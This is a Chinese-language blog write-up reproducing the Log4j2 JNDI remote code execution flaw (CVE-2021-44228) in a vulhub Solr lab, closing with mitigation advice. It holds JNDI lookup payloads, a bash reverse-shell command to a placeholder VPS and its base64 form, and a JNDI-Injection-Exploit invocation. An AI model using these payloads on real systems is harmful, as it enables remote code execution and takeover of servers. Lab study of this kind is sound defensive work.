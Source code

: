 ```yaml
---
layout:     post
title:      Apache Log4j2 远程代码执行漏洞（CVE-2021-44228）
subtitle:   纸上得来终觉浅，绝知此事要躬行
date:       2023-7-20
author:     xuoneyuan
header-img: 
catalog: 	  false
tags:
    - 漏洞复现
---
```

### 前言
做这个漏洞复现的主要原因是因为在看微信公众号文章的时候看到了这么一张图，第一眼看的时候就没绷住，后来在空间看到一个福建来的信安天才少年发了说说就是这张图，感觉有点意思，就想着自己也来复现一下

![每次看都绷不住]({{site.baseurl}}/img-post/l-13.png)

这里我翻译一下：
- ldap://：这表示URL使用LDAP协议进行通信
- chinaran404：这是LDAP服务器的主机名或IP地址
- /loveme：这是LDAP服务器内特定资源的路径，可能是一个目录、条目或其他对象

这不禁让我想起了这张图（知乎看到的，侵删）

![真的是一个悲伤的故事]({{site.baseurl}}/img-post/l-15.png)

好了言归正传，我们来分析一下这个漏洞

### 漏洞分析
#### log4j2是什么
log4j2是apache下的java应用常见的开源日志库，是一个就Java的日志记录工具。在log4j框架的基础上进行了改进，并引入了丰富的特性，可以控制日志信息输送的目的地为控制台、文件、GUI组建等，被应用于业务系统开发，用于记录程序输入输出日志信息
#### JNDI是什么
JNDI，全称为Java命名和目录接口（Java Naming and Directory Interface）,是SUN公司提供的一种标准的Java命名系统接口，允许从指定的远程服务器获取并加载对象。JNDI相当于一个用于映射的字典，使得Java应用程序可以和这些命名服务和目录服务之间进行交互。JNDI注入攻击时常用的就是通过RMI和LDAP两种服务
#### log4j2远程代码执行漏洞原理
log4j2框架下的lookup查询服务提供了{}字段解析功能，传进去的值会被直接解析。例如${java:version}会被替换为对应的java版本。这样如果不对lookup的出栈进行限制，就有可能让查询指向任何服务（可能是攻击者部署好的恶意代码）\
攻击者可以利用这一点进行JNDI注入，使得受害者请求远程服务来链接本地对象，在lookup的{}里面构造payload，调用JNDI服务（LDAP）向攻击者提前部署好的恶意站点获取恶意的.class对象，造成了远程代码执行（可反弹shell到指定服务器）

示意图:
![1]({{site.baseurl}}/img-post/l-17.png)
#### 漏洞等级
高危\
官方 CVSS 评分 10.0
#### 影响版本
Apache Log4j2 2.x <= 2.14.1\
Apache Log4j2 2.15.0-rc1（补丁绕过）
### 漏洞复现
#### 环境搭建
这里我使用的是vulhub，利用docker启动关闭环境
没有vulhub的可以用这个靶场：https://vulfocus.cn/#/dashboard
没有docker的先下载
![1]({{site.baseurl}}/img-post/l-1.png)
vulhub的下载
~~~
wget https://github.com/vulhub/vulhub/archive/master.zip -O vulhub-master.zip
unzip vulhub-master.zip
cd vulhub-master
~~~
然后进入需要开启的漏洞路径
~~~
cd vulhub-master/xxx/xxx
docker-compose up -d
~~~
![1]({{site.baseurl}}/img-post/l-2.png)
端口是8983，我们接下来访问http://192.168.xxx.xxx:8983/solr/#/
![1]({{site.baseurl}}/img-post/l-3.png)
#### 漏洞检测
官方POC(二选一）
~~~
${jndi:ldap://${sys:java.version}.xxx.dnslog.cn}
${jndi:rmi://${sys:java.version}.xxx.dnslog.cn}
~~~
利用DnsLog平台检测dns回显，查看是否有漏洞存在，获取一个子域名
![1]({{site.baseurl}}/img-post/l-4.png)
接着我们就可以对目标网站进行测试了，访问：http://192.168.xxx.xxx:8983/solr/admin/cores?${jndi:ldap://${sys:java.version}.xxxxxx.dnslog.cn }
![1]({{site.baseurl}}/img-post/l-5.png)
返回，刷新后得到数据
![1]({{site.baseurl}}/img-post/l-6.png)

#### 漏洞利用
反弹shell的命令
~~~
bash -i >& /dev/tcp/vps_ip/6666 0>&1
~~~
接着进行编码，对命令进行base64加密即可
![1]({{site.baseurl}}/img-post/l-18.png)
接下来利用现成的JNDI注入工具：JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar，项目地址：https://github.com/welk1n/JNDI-Injection-Exploit
（注意下载的时候要关掉一切防火墙和实时保护）
最迟到这里你的kali攻击机就要启动了，执行命令
~~~
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo, YmFzaCAtaSA+JiAvZGV2L3RjcC92cHNfaXAvNjY2NiAwPiYxCg==}|{base64,-d}|{bash,-i}" -A 192.168.xxx.xxx
~~~
运行后终端如图：
![1]({{site.baseurl}}/img-post/l-7.png)
这里已经一键部署好了RMI和LDAP服务的站点，并给出了路径，我选择用ldap，JDK1.8的版本为ldap://192.168.xxx.xxx:1389/Exploit，JDK1.7的版本为：ldap://192.168.xxx.xxx:1389/Exploit 这两个版本任选一个都行
再打开一个终端开启nc
![1]({{site.baseurl}}/img-post/l-8.png)
把工具生成的payload插入到action后面
~~~
http://192.168.xxx.xxx:8983/solr/admin/cores?action=${jndi:ldap://192.168.xxx.xxx:1389/xxxxxx}
~~~
![1]({{site.baseurl}}/img-post/l-9.png)
再次返回kali我们可以看到nc成功反弹shell，但是我这里有一个小问题，就是shell没有反弹回来，查了一下csdn的一个大佬说他也反弹不回来，可能是靶场的问题，我试了好几个端口比如6969，8888都没有成功反弹shell，这个时候已经凌晨2：40了，于是我决定先睡觉（没错我就是懒狗）\
反弹成功的回显是这样的
![1]({{site.baseurl}}/img-post/l-11.png)
本来到这里就应该结束了，但是我还是发现一个问题，就是在JNDI注入工具上决定了你是黑客大佬还是脚本小子，如果只会用工具，那么小学生都能顺利完成这个漏洞复现（问题是我已经大学了），在JNDI脚本运行上我又出了问题
![1]({{site.baseurl}}/img-post/l-12.png)
我尝试了一下网上的方法，说是maven打包出现了问题，我照他的方法重新配置了起步依赖，但是没有用，这个事情充分说明了不会编程的hacker就是个伪命题（你给我去学Java、golang）
![1]({{site.baseurl}}/img-post/l-16.png)
#### 修复建议
1. 设置log4j2.formatMsgNoLookups=True，相当于直接禁止lookup查询出栈，也就不可能请求到访问到远程的恶意站点
2. 对包含有"jndi:ldap://"、"jndi:rmi//"这样字符串的请求进行拦截，即拦截JNDI语句来防止JNDI注入
3. 对系统进行合理配置，禁止不必要的业务访问外网，配置网络防火墙,禁止系统主动外连网络等等
4. 升级log4j2组件到新的安全的版本

### 彩蛋
![1]({{site.baseurl}}/img-post/l-14.png)
